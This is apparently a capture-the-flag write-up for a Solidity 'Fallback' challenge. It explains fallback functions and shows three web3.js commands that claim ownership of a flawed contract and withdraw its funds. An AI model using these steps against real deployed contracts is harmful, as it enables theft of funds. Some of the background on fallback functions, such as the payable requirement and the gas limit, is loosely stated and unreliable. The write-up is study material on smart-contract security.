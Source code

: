 First things first,

What is a fallback function?


-> In Solidity, a fallback function is an external function with neither a name, parameters, or return values.



Few notable properties of fallback function:

-> It is compulsory to mark it as external.

-> It should be marked as payable. If not, the contract will throw an exception if it receives ether without any data.

-> It is limited to 2300 gas if invoked by other functions.


The task:

1.Claim ownership of the contract.

2.Reduce its balance to 0.


//
Problem with contract:

-> Bad implementation of fall back functio i.e Changing contract ownership inside the fallback function.

*Observe the condition seen in fallback function*
 
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

//
How to get ownership and winthdraw all the money out of the contract

 
Solution:

1. Your account address has to contribute to be mapped. 

await contract.contribute({value:3})

2. Trigger fallback function by sending transcation by using web3.js command.

await contract.sendTransaction({value:3})

Congrats!! u now own the contract.

3.Lastly to withdraw all the eth from the contract

await contract.withdraw()

------done------
